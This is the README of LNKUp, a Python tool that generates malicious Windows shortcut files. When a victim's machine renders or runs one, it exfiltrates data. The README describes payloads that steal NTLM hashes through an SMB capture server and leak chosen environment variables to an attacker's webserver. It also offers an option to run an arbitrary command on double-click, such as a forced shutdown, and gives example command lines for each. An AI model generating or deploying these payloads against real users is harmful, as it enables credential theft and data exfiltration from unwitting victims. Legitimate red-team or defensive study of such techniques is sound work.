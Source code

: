 # LNKUp
Updated to be used with python3
---
LNK Data exfiltration payload generator
---
This tool will allow you to generate LNK payloads. Upon rendering or being run, they will exfiltrate data.   

## Info
**I am not responsible for any actions you take with this tool!**   
You can contact me with any questions by opening an issue, or via my Twitter, [@Plazmaz](https://www.twitter.com/Plazmaz).

## Known gotchas
* This tool will not work on OSX or Linux machines. It is specifically designed to target windows.
* There may be issues with icon caching in some situations. If your payload doesn't execute after the first time, try regenerating it.
* You will need to run a responder or [metasploit module](https://www.rapid7.com/db/modules/auxiliary/server/capture/smb) server to capture NTLM hashes.
* To capture environment variables, you'll need to run a webserver like apache, nginx, or even just [this](https://gist.github.com/Plazmaz/cafd0bd3a3a4471446cc8fe6e4f0c036)

## Installation
Install requirements using   
`pip install -r requirements.txt`


## Usage

#### Payload types:
* NTLM
	* Steals the user's NTLM hash when rendered.
	* Needs listener server such as this [metasploit module](https://www.rapid7.com/db/modules/auxiliary/server/capture/smb)
	* More on NTLM hashes leaking: [https://dylankatz.com/NTLM-Hashes-Microsoft's-Ancient-Design-Flaw/](https://dylankatz.com/NTLM-Hashes-Microsoft's-Ancient-Design-Flaw/?utm_source=github_lnkup)
	* Example usage:   
	 `lnkup.py --host localhost --type ntlm --output out.lnk`
* Environment
	* Steals the user's environment variables.
	* Examples: %PATH%, %USERNAME%, etc
	* Requires variables to be set using --vars
	* Example usage:   
	 `lnkup.py --host localhost --type environment --vars PATH USERNAME JAVA_HOME --output out.lnk`
#### Extra:
* Use `--execute` to specify a command to run when the shortcut is double clicked
	* Example:   
	  `lnkup.py --host localhost --type ntlm --output out.lnk --execute "shutdown /s"`
